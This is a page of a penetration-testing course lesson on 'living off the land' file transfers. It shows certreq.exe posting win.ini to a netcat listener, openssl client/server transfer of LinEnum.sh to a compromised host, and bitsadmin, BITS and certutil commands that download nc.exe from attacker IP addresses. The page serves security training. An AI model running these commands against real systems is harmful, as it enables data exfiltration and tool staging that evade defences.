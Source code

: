 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/24/section/1575
// Platform Version: V1
// Module ID: 24
// Module Name: File Transfers
// Module Difficulty: Medium
// Section ID: 1575
// Section Title: Living off The Land
// Page Title: File Transfers
// Page Number: 08
-->

# Living off The Land

**Module Name:** File Transfers **Page Number:** 08

#### FILE TRANSFERS

# Living off The Land

## Using the LOLBAS and GTFOBins Project

### LOLBAS

![https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg](https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg)

#### Upload win.ini to our Pwnbox

``` cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

#### File Received in our Netcat Session

``` shell-session
[!bash!]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

### GTFOBins

![https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg](https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg)

#### Create Certificate in our Pwnbox

``` shell-session
[!bash!]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

#### Stand up the Server in our Pwnbox

``` shell-session
[!bash!]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

#### Download File from the Compromised Machine

``` shell-session
[!bash!]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools

### Bitsadmin Download function

#### File Download with Bitsadmin

``` powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

#### Download

``` powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil

#### Download a File with Certutil

``` cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

## Extra Practice

# 

# 

#### Optional Exercises

####